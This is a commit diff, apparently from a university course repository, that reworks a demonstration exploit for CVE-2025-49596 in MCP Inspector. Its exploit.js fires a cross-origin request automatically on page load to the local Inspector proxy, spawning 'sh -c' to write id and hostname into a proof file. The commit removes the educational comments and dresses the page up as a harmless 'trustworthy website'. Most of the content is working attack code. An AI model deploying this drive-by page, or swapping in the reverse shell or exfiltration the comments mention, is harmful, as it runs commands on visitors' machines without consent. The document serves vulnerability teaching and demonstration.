

Before and after one commit to Vitao18/mac0696-ep2-cves, a plain HTML site: page mcp-inspector-cve-2025-49596/attacker/index.html in a window 1280 px wide. Shown: the whole page at 94% size, 1656 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
enxugada

```diff
--- a/mcp-inspector-cve-2025-49596/attacker/exploit.js
+++ b/mcp-inspector-cve-2025-49596/attacker/exploit.js
@@ -1,51 +1,29 @@
-/* ===========================================================================
- *  exploit.js — núcleo do ataque CORS -> RCE contra o MCP Inspector < 0.14.1
- *  CVE-2025-49596
- * ---------------------------------------------------------------------------
- *  Este script roda no NAVEGADOR DA VÍTIMA só porque ela abriu esta página.
- *  Ele não tem nenhuma credencial do Inspector — não precisa. O proxy do
- *  Inspector (porta 6277) aceita qualquer requisição, de qualquer origem,
- *  sem token de sessão. Basta fazer o navegador bater nele.
+/* =======================================================================
+ * Este script roda no navegador da vítima só porque ela abriu esta página
  *
- *  Causa-raiz (ver docs/root-cause-analysis.md), em server/src/index.ts @0.14.0:
- *    - app.use(cors())                  -> reflete QUALQUER Origin (sem allowlist)
- *    - app.get("/sse", async ...)       -> SEM middleware de autenticação
- *    - createTransport(): no ramo stdio, lê os parâmetros ?command=&args= da URL
- *      e faz new StdioClientTransport({command,args}).start() -> SPAWN de processo.
- *
- *  Ou seja: quem controla a query string controla o processo executado na
- *  máquina da vítima. Isto aqui é só um GET.
- * ---------------------------------------------------------------------------
- *  Autoria: escrito do zero para o EP2 de MAC0696, a partir da advisory oficial
- *  GHSA-7f8r-222p-6f5g e da divulgação pública da Oligo Security. Ver CRÉDITOS
- *  no final do arquivo e em docs/root-cause-analysis.md.
- * ======================================================================== */
+ * Ele não tem nenhuma credencial do Inspector, afinal não precisa: proxy
+ * do Inspector (porta 6277) aceita qualquer requisição, de qualquer origem,
+ * sem token de sessão. Basta fazer o navegador bater nele
+ * ====================================================================== */
 
-// Endereço do proxy do Inspector na máquina da vítima. Numa vítima real isto é
-// sempre localhost: o proxy escuta localmente e o 0.14.0 fazia bind em 0.0.0.0.
+// Endereço do proxy do Inspector na máquina da vítima. O proxy
+// escuta localmente e o 0.14.0 fazia bind em 0.0.0.0
 const PROXY = "http://127.0.0.1:6277";
 
-// --- O "payload" -----------------------------------------------------------
-// Para a demo, o comando apenas GRAVA UMA PROVA (id + hostname) em /evidence,
-// que é um volume montado — então conseguimos ler do host, no projetor.
+// Para essa demonstração, o comando apenas grava uma prova (id + hostname)
+// em /evidence, que é um volume montado (conseguimos ler do host)
+//
 // Num ataque real, aqui iria qualquer comando (reverse shell, exfiltração...).
-//
-// command = "sh"  e  args = -c "<comando>"
-// Os operadores de shell (>, ;) vão DENTRO de aspas para que o parser do
-// servidor (shell-quote) os trate como texto literal, e só o `sh -c` os execute.
-// Nota sobre o parsing: o servidor faz shellParseArgs(query.args) (shell-quote).
-// Mantemos TODA a sequência dentro de UMA aspa dupla, sem usar $ nem aspas
-// simples: assim o shell-quote devolve exatamente ['-c', '<string literal>']
-// e quem interpreta os operadores >, ; é o `sh -c` no final — de forma confiável.
+// No nosso caso, apenas abrimos um shell e evidenciamos o ataque
 const COMMAND = "sh";
 const ARGS =
-  '-c "echo CVE-2025-49596 RCE PROOF via navegador sem auth > /evidence/proof.txt;' +
+  '-c "echo CVE-2025-49596 RCE via navegador sem auth > /evidence/proof.txt;' +
   " id >> /evidence/proof.txt 2>&1;" +
   ' hostname >> /evidence/proof.txt"';
 
 // Monta a URL do ataque. O endpoint /sse com transportType=stdio é o caminho
 // mais limpo: é um GET simples (nenhum header customizado), então o navegador
-// NEM dispara preflight CORS — manda direto.
+// nem dispara preflight CORS, manda direto
 function buildAttackUrl() {
   const qs = new URLSearchParams({
     transportType: "stdio",
@@ -55,50 +33,22 @@ function buildAttackUrl() {
   return `${PROXY}/sse?${qs.toString()}`;
 }
 
-// Dispara o ataque. Usamos mode:"no-cors": não precisamos LER a resposta —
-// o efeito colateral (o spawn do processo) acontece no servidor assim que a
-// requisição chega, antes de qualquer stream voltar. Com no-cors a requisição
-// é enviada de qualquer jeito, mesmo que o navegador esconda a resposta.
+// Dispara o ataque. Usamos mode:"no-cors": não precisamos ler a resposta.
+// O spawn do procsso acontece no servidor assim que a requisição chega,
+// antes de qualquer stream voltar. Com no-cors a requisição é enviada
+// de qualquer jeito, mesmo que o navegador esconda a resposta.
 async function fireExploit() {
   const url = buildAttackUrl();
-  log(`[*] Disparando GET cross-origin para o proxy do Inspector...`);
-  log(`    ${url}`);
   try {
-    // keepalive para o GET sobreviver mesmo se a aba fechar logo depois.
+    const url = buildAttackUrl();
     await fetch(url, { mode: "no-cors", keepalive: true });
-    log("[+] Requisição enviada. Se o alvo é 0.14.0, o processo já foi executado.");
-    log("    Prova no host:  cat evidence/proof.txt");
-  } catch (e) {
-    // Num alvo 0.14.1 (corrigido) o navegador verá 403 (origem inválida) e,
-    // dependendo do browser, um erro de rede aqui. Isso é o esperado: ataque barrado.
-    log(`[-] Falhou (provável alvo corrigido / origem bloqueada): ${e}`);
+  } catch (err) {
+    console.error("Falha ao disparar requisição:", err);
   }
 }
 
-// --- util de log na própria página (grande, p/ projetor) -------------------
-function log(msg) {
-  const pre = document.getElementById("log");
-  pre.textContent += msg + "\n";
-  // também no console, p/ inspecionar com read_console_messages se preciso
-  console.log("[exploit]", msg);
-}
-
-// Dispara automaticamente ao carregar a página: a vítima não precisa clicar
-// em nada — só visitar o site. É esse o ponto da demonstração.
+// Dispara automaticamente ao carregar a página: a vítima não precisa
+// clicar em nada, só visitar o site. É esse o ponto da demonstração.
 window.addEventListener("load", () => {
-  log("[*] Página maliciosa carregada no navegador da vítima.");
   fireExploit();
 });
-
-// Botão para re-disparar durante a apresentação.
-window.fireExploit = fireExploit;
-
-/* ===========================================================================
- *  CRÉDITOS / FONTES
- *   - Advisory oficial:  GHSA-7f8r-222p-6f5g
- *     https://github.com/modelcontextprotocol/inspector/security/advisories/GHSA-7f8r-222p-6f5g
- *   - Divulgação e pesquisa original: Oligo Security ("MCP Inspector RCE", 2025).
- *   - Patch: commit 50df0e1ec488f3983740b4d28d2a968f12eb8979 (bump p/ 0.14.1).
- *  Este arquivo foi escrito pelo trio; nenhum código de PoC de terceiros foi
- *  copiado. A técnica (GET cross-origin no proxy sem auth) é a descrita na advisory.
- * ======================================================================== */
--- a/mcp-inspector-cve-2025-49596/attacker/index.html
+++ b/mcp-inspector-cve-2025-49596/attacker/index.html
@@ -1,71 +1,30 @@
 <!DOCTYPE html>
 <!--
-  ===========================================================================
-   Página maliciosa — demo da CVE-2025-49596 (CORS -> RCE no MCP Inspector)
-  ===========================================================================
-   Na vida real seria um site qualquer ("evil.example", um anúncio, um link).
-   A vítima só precisa ABRIR esta página com o MCP Inspector rodando local.
-   O ataque de fato está em exploit.js (bem comentado). Esta página só:
-     1) explica o que está acontecendo (para a apresentação), e
-     2) carrega exploit.js, que dispara sozinho no onload.
-   Visual proposital: tema claro + fonte grande, legível em projetor.
-  ===========================================================================
+  =======================================================
+  Página do bem, não é uma demonstração da CVE-2025-49596
+  =======================================================
+  A vítima só precisa abrir esta página com o MCP
+  Inspector rodando localmente. O ataque de fato está em
+  exploit.js. Esta página só carrega o script
+  ========================================================
 -->
 <html lang="pt-BR">
 <head>
   <meta charset="utf-8" />
-  <title>Promoção imperdível :) </title>
-  <style>
-    :root { color-scheme: light; }
-    body {
-      background: #ffffff; color: #111827;
-      font-family: ui-sans-serif, system-ui, "Segoe UI", Arial, sans-serif;
-      font-size: 20px; line-height: 1.5; margin: 0; padding: 2rem 2.5rem;
-    }
-    h1 { font-size: 2rem; margin: 0 0 .5rem; }
-    .tag { display:inline-block; background:#fee2e2; color:#991b1b;
-           border:1px solid #fecaca; border-radius:6px; padding:2px 10px;
-           font-size:.8rem; font-weight:600; letter-spacing:.02em; }
-    p.lead { color:#374151; max-width: 60ch; }
-    .card { background:#f9fafb; border:1px solid #e5e7eb; border-radius:10px;
-            padding:1rem 1.25rem; margin-top:1rem; max-width: 80ch; }
-    code { background:#f3f4f6; padding:1px 6px; border-radius:4px;
-           font-family: ui-monospace, "SF Mono", Menlo, Consolas, monospace; }
-    pre#log { background:#0b1021; color:#e5e7eb; border-radius:10px;
-              padding:1rem 1.25rem; font-size:1.05rem; line-height:1.45;
-              font-family: ui-monospace, "SF Mono", Menlo, Consolas, monospace;
-              white-space: pre-wrap; min-height: 9rem; }
-    button { font-size:1.05rem; padding:.6rem 1.1rem; border-radius:8px;
-             border:1px solid #d1d5db; background:#111827; color:#fff;
-             cursor:pointer; }
-    .muted { color:#6b7280; font-size:.95rem; }
-  </style>
+  <title>Website confiável</title>
 </head>
 <body>
-  <span class="tag">DEMO EDUCACIONAL — MAC0696</span>
-  <h1>🎉 Você ganhou um prêmio!</h1>
+  <h1>Essa é uma página perfeitamente confiável.</h1>
   <p class="lead">
-    (Na vida real, a vítima veria só isto. Nenhum clique é necessário: o ataque
-    dispara sozinho ao carregar a página.)
+  		Não há nada que desconfiar aqui. Agora veja essa imagem:
+
+		<br>
+		<center>
+		<img src=image.jpg width="300">
+		</center>
   </p>
 
-  <div class="card">
-    <strong>O que esta página faz por baixo dos panos</strong>
-    <p class="muted" style="margin:.4rem 0 0">
-      Dispara um <code>GET</code> cross-origin para o proxy do MCP Inspector em
-      <code>http://127.0.0.1:6277/sse</code> com
-      <code>transportType=stdio&amp;command=sh&amp;args=...</code>. O proxy
-      vulnerável (&lt; 0.14.1) não exige autenticação nem valida a origem, então
-      executa o comando na máquina da vítima. A prova cai em
-      <code>evidence/proof.txt</code>.
-    </p>
-  </div>
-
-  <h3>Log do ataque (ao vivo)</h3>
-  <pre id="log"></pre>
-  <button onclick="window.fireExploit()">▶ Disparar de novo</button>
-
-  <!-- O exploit de fato. Carregado por último para o log já existir. -->
+  <!-- Script nem um pouco suspeito -->
   <script src="exploit.js"></script>
 </body>
 </html>
```
Also changed, not shown: mcp-inspector-cve-2025-49596/attacker/image.jpg (added), 10 other files.
